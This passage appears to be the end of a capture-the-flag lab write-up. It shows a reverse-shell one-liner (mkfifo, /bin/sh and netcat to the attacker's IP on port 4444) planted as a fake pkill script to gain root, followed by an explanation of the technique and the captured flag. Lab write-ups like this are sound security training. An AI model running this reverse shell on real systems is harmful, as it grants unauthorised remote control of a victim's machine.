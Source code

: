 ```console
echo "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.x.x 4444 >/tmp/f" > /home/lachlan/bin/pkill; chmod +x /home/lachlan/bin/pkill
```

Earlier, I opened a listening port 4444 on my machine.

```console
> nc lvnp 4444
```
This creates a malicious script called pkill in the **/home/lachlan/bin/** directory. When executed, the script first deletes any existing file at **/tmp/f** to prevent conflicts. Then, it creates a FIFO (named pipe) at **/tmp/f**, which allows data to flow between processes. The script then redirects the data from this pipe to an interactive shell (/bin/sh -i), enabling command execution on the victim’s machine as if it were a local terminal session.

Instead of displaying the output on the screen, the script sends it to **netcat** (nc), which opens a connection to the attacker's machine at IP 10.8.x.x on port 4444. This is the reverse shell, granting remote control of the victim's system. Finally, the script sends the shell’s responses back to the FIFO, keeping the communication open, allowing ongoing interaction with the system remotely.

Now, I can retrieve the root flag.

```console
# cat root.txt
thm{7b708e5224f666d3562647816ee2a1d4}
# 
```

**Flag : thm{7b708e5224f666d3562647816ee2a1d4}**